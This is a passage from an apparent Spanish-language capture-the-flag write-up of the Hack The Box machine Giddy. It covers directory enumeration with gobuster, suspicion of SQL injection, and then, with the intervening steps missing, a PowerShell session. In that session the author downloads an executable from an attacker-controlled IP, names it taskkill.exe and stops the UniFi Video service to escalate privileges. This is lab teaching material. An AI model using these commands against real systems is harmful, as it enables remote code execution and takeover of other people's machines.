 ```
</body>
</html>

```

Como veremos en un navegador, se nos da un link y una imagen de un perrito. Si realizamos la misma operación sobre https, tendremos el mismo resultado. Esto nos puede indicar que solo la capa de transporte cambia, pero es el mismo servidor web.

Busquemos más sobre estos servicios web.

# Gobuster

Ejecutamos gobuster con los parámetros tradicionales y menos extensos, pero se omiten los errores de conexión para no llenar de spam:

```
xbytemx@laptop:~/htb/friendzone$ ~/tools/gobuster -u http://10.10.10.104/ -w ~/git/payloads/owasp/dirbuster/directory-list-2.3-small.tx
t -t 20 -x php,html,txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.104/
[+] Threads      : 20
[+] Wordlist     : /home/xbytemx/git/payloads/owasp/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,html,txt
[+] Timeout      : 10s
=====================================================
2019/02/15 11:31:01 Starting gobuster
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```

Encontramos dos directorios, el primero llamado remote y el segundo llamada mvc

Remote
![Home de /remote](/img/htb-giddy/remote-root.png)

mvc
![Home de /mvc](/img/htb-giddy/mvc-root.png)

La primera resulta ser el portal de acceso remoto sobre powershell, mientras que la segunda parece alguna aplicación de productos de bicicleta. Si ponemos el mouse sobre alguno de estos objetos veremos que dentro de la URL esta harcodeado el numero de ID, por lo que probaremos con un SQLi.

# SQLi


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService